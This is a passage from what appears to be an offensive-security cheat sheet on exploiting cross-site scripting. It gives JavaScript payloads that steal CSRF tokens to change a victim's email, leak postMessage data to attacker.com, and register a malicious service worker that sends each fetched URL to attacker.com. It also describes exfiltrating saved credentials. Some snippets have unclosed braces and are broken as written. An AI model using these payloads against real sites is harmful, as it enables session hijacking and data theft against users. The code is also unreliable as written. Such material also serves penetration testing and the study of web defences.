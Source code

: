 When any data is introduced in the password field, the username and password is sent to the attackers server, even if the client selects a saved password and don't write anything the credentials will be ex-filtrated.

### XSS - Stealing CSRF tokens

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

### XSS - Stealing PostMessage messages

```markup
<img src="https://attacker.com/?" id=message>
<script>
 window.onmessage = function(e){
 document.getElementById("message").src += "&"+e.data;
</script>
```

### XSS - Abusing Service Workers

A service worker is a **script** that your browser **runs** in the **background**, separate from a web page, opening the door to features that don't need a web page or user interaction. \([More info about what is a service worker here](https://developers.google.com/web/fundamentals/primers/service-workers)\).  
The goal of this attack is to **create service workers** on the **victim session** inside the **vulnerable** web **domain** that grant the **attacker control** over **all the pages** the **victim** will load in **that domain**.

In order to exploit this vulnerability you need to find:

* A way to **upload arbitrary JS** files to the server and a **XSS to load the service worker** of the uploaded JS file
* A **vulnerable JSONP request** where you can **manipulate the output \(with arbitrary JS code\)** and a **XSS** to **load the JSONP with a payload** that will **load a malicious service worker**.

In the following example I'm going to present a code to **register a new service worke**r that will listen to the `fetch` event and will **send to the attackers server each fetched URL** \(this is the code you would need to **upload** to the **server** or load via a **vulnerable JSONP** response\):

```javascript
self.addEventListener('fetch', function(e) {
  e.respondWith(caches.match(e.request).then(function(response) {
    fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
